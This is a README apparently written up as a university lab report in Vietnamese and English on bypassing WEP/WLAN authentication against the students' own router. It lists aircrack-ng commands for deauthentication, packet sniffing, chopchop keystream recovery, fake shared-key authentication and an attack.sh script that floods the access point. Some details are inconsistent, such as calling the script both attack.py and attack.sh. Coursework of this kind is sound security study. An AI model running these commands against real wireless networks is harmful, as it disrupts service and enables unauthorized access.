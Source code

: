 # WEP_WPA_Bypass
<br>
          <b>BÁO CÁO BÀI TẬP</b><br>
- Môn học: An toàn Mạng không dây và di động<br>
- Kỳ báo cáo: Buổi 03 (Session 03)<br>
- Tên chủ đề: VƯỢT QUA XÁC THỰC MẠNG WLAN<br>
- Bypassing WLAN Authentication<br>
- GV: Lê Đức Thịnh<br>
- Ngày báo cáo: 24/4/2023<br>
- Nhóm: 802.11<br>
- Lớp: NT330.N21.ANTT.1<br>
  - 20521047	20521047@gm.uit.edu.vn <br>
  - 20520514	20520514@gm.uit.edu.vn <br>
  
<h1>Tested on TL-WR841N & ParrotOS because my Kali Linux do not support monitor mode on TL-WN725N USB Wifi, so I use Parrot, and wlan0 is replaced by <i>wlx9ca2f4fd78ac</i>
<h1>

- All commands that I used
  - To see wireless interface, use `iwconfig`
  - To start monitor mode, use `airmon-ng start wlan0`
  - You can use option -c to send deauth attack to specific users.
  ```
  aireplay-ng -0 5 -a <AP's MAC> -c <IP's Client> wlan0mon
  ```
  ![image](https://github.com/hoangbui24/WEP_WPA_Bypass/assets/71567852/36d6f5f4-e763-4975-8714-2d794975eaff)
  - To see all access points, use.
  ```
  airodump-ng wlan0mon
  ```
  ![image](https://github.com/hoangbui24/WEP_WPA_Bypass/assets/71567852/a5b72f9b-aed3-4d91-9fb3-492e4513c7db)
  - To sniff packets between Client and access point, use.
  ```
  airodump-ng wlan0mon -c <channel> --bssid <mac AP> -w keystream 
  ```
  - If you do not have the .xor file, create it by using chopchop attack.
  ```
  aireplay-ng -h <Your device which you use to connect> -a <mac AP> wlan0mon
  ```
  ![image](https://github.com/hoangbui24/WEP_WPA_Bypass/assets/71567852/97bb6bf8-43bb-4d09-8794-04e629b33afe)
  ![image](https://github.com/hoangbui24/WEP_WPA_Bypass/assets/71567852/ad149d0a-7062-4b33-b3a4-1e572dc51e22) 
  - To fake SKA, use
  ```
  aireplay-ng -1 0 -e "Nhom 802.11" -y <keystream.xor> -a <MAC AP> -h AA:AA:AA:AA:AA:AA wlan0mon
  ```
  ![image](https://github.com/hoangbui24/WEP_WPA_Bypass/assets/71567852/de87245a-4bef-4b29-a673-68561f6d26dd)
  - Run attack.py, then you must open another terminal and run `airodump-ng wlan0mon -c <channel> --bssid <mac AP> -w keystream `
  ```
  ./attack.sh <number you want> <mac AP> <wireless adapter>
  ```
  ![image](https://github.com/hoangbui24/WEP_WPA_Bypass/assets/71567852/502d55a6-8136-4076-8cb7-eaa542d9b03b)
   > Below is overload, cannot be connected more
  ![image](https://github.com/hoangbui24/WEP_WPA_Bypass/assets/71567852/294b804f-8b2e-4c38-9751-b9cbc35987d8)


  





 
